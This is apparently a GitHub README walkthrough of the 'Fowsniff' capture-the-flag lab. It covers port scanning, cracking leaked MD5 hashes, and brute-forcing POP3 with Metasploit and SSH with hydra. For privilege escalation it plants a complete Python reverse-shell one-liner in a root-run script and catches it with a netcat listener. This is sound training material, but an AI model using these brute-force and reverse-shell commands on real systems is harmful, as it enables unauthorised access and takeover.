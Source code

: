 # Fowsniff-Capture The Flag 🔱

Welcome to the world of ethical hacking, where curiosity meets challenge and every keystroke brings you closer to uncovering hidden vulnerabilities. In this Capture the Flag (CTF) adventure, nicknamed **"Fowsniff"**, I'll be stepping into the shoes of a cyber sleuth, navigating through layers of digital defenses to expose the secrets of a vulnerable machine. From port scanning and online sleuthing to cracking hashes and brute-forcing logins, this project is more than just a test of technical skills—it's a journey into the heart of cybersecurity. Join me as I unravel the complexities of **Fowsniff**, one flag at a time. 😁

## Information Gathering 🤓 ## 
The target IP address is provided when the machine is deployed. For this walkthrough, the target IP address is 10.10.110.111.

## Scanning 🩻 ##
**Results**:
- **Port 22/tcp** - SSH - (OpenSSH 7.2p2)
- **Port 80/tcp** - HTTP - (Apache httpd 2.4.18)
- **Port 110/tcp)** - POP3 - (Dovecot pop3d)
- **Port 143/tcp)** - IMAP - (Dovecot imapd)

  ![initial nmap scan](https://github.com/user-attachments/assets/14302e40-3f1e-4e4f-aa0a-88422f970a5b)

## Enumeration 🔬 ##
Access the web server running on port 80 by visiting **htpp://<target_IP>** in the browser. The website reveals that attackers have dumped employee usernames and hashed passwords on Pastebin.

![enum website ](https://github.com/user-attachments/assets/a5865fcc-4eea-41b2-9c8e-bc2e076cf74d)

- We then retrieve the list of usernames and hashed passwords and save the data to files on the local machine.

![Password Hashes](https://github.com/user-attachments/assets/146aeb2c-2134-4165-96c4-c5a7c91de601)

- Crack the MD5 hashes using hashes.com and save the results to hashcracked.txt.

![Hashes decrypted](https://github.com/user-attachments/assets/830dbd85-d7d7-4346-bac7-55c56c816d82)

- Create files for both **usernames** (username.txt) and the newly cracked **passwords** (password.txt.

## Gaining Access 🕸️ ##

- Use Metasploit module for brute forcing the POP3 service: 

  - msfconsole
  - use auxiliary/scanner/pop3/pop3_login
  - set RHOSTS 10.10.110.111
  - set USER_FILE username.txt
  - set PASS_FILE password.txt
  - exploit

![set options in metasploit](https://github.com/user-attachments/assets/ecf9f1c0-aacf-4024-a540-1dfd6e234e04)

- Running the Metasploit module, we find a matching username and password.  We are now able to connect to the POP3 mail server 📨 !!!

![used hydra to dictionary attack](https://github.com/user-attachments/assets/8fb317ff-0597-4a30-9291-617e8a9fd51b)

- Connect to the POP3 service using the newly found credentials:
  - nc <target_IP>
    - *user* <username>
    *password* <password>

- We come across two emails we can view:

![list messages](https://github.com/user-attachments/assets/2dba789f-f52c-4b97-9a35-3b9c7c2544dc)

- Retrieve the emails:
  LIST; RETR 1; RETR 2

![SSH password email sent](https://github.com/user-attachments/assets/41885922-031d-4581-bbf6-84548941d8b4)

- In the second email we accessed, we can view a temp password for SSH and a possible username.
- Next, use hydra to brute force the SSH login:
  - hydra -L users.txt -p "<password>" ssh://<target_IP>
  - or, the first email can shed light on the username.
- Next, we attempt to connect via SSH

![SSH connection](https://github.com/user-attachments/assets/3d6c8518-a748-4351-a11d-fab27a726038)


## Privilege Escalation 🪃

- Once logged in, enumerate the system:
  - Once the SSH connection is established, we must discover what group(s) the user "baksteen" belongs
  - The user belongs to a group called "users" with permission to run '**/opt/cube/cube/sh**'
  - Edit **cube.sh** by inserting a Python reverse shell:
    - **python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**
  - Set up a Netcat listener on local machine: **nc -nlvp 1234**
  - In a seperate terminal, SSH back into the machine: **ssh <username>@<target_IP>**
  - The reverse shell should connect to your listener.  Access the root directory and read the flag:
    - cd /root
    - cat flag.txt
   
![flag captured](https://github.com/user-attachments/assets/3ccb6ba7-0d07-4856-95c2-c0247692e722)









